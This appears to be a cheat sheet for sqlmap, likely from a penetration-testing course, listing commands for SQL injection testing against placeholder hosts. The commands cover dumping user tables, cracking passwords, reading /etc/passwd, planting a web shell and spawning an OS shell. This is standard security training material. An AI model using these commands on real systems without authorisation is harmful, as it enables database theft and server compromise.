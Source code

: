 | **Command**                                                                                                               | **Description**                                             |
| ------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------- |
| `sqlmap -h`                                                                                                               | View the basic help menu                                    |
| `sqlmap -hh`                                                                                                              | View the advanced help menu                                 |
| `sqlmap -u "http://www.example.com/vuln.php?id=1" --batch`                                                                | Run `SQLMap` without asking for user input                  |
| `sqlmap 'http://www.example.com/' --data 'uid=1&name=test'`                                                               | `SQLMap` with POST request                                  |
| `sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'`                                                              | POST request specifying an injection point with an asterisk |
| `sqlmap -r req.txt`                                                                                                       | Passing an HTTP request file to `SQLMap`                    |
| `sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'`                                                        | Specifying a cookie header                                  |
| `sqlmap -u www.target.com --data='id=1' --method PUT`                                                                     | Specifying a PUT request                                    |
| `sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt`                                             | Store traffic to an output file                             |
| `sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch`                                                            | Specify verbosity level                                     |
| `sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"`                                                     | Specifying a prefix or suffix                               |
| `sqlmap -u www.example.com/?id=1 -v 3 --level=5`                                                                          | Specifying the level and risk                               |
| `sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba`                                  | Basic DB enumeration                                        |
| `sqlmap -u "http://www.example.com/?id=1" --tables -D testdb`                                                             | Table enumeration                                           |
| `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname`                                      | Table/row enumeration                                       |
| `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"`                             | Conditional enumeration                                     |
| `sqlmap -u "http://www.example.com/?id=1" --schema`                                                                       | Database schema enumeration                                 |
| `sqlmap -u "http://www.example.com/?id=1" --search -T user`                                                               | Searching for data                                          |
| `sqlmap -u "http://www.example.com/?id=1" --passwords --batch`                                                            | Password enumeration and cracking                           |
| `sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"` | Anti-CSRF token bypass                                      |
| `sqlmap --list-tampers`                                                                                                   | List all tamper scripts                                     |
| `sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba`                                                              | Check for DBA privileges                                    |
| `sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"`                                                      | Reading a local file                                        |
| `sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"`                 | Writing a file                                              |
| `sqlmap -u "http://www.example.com/?id=1" --os-shell`                                                                     | Spawning an OS shell                                        |
| `--threads 10`                                                                                                            | If boolean or time based speed up                           |
| `--privileges`                                                                                                            | See user and privileges                                                            |
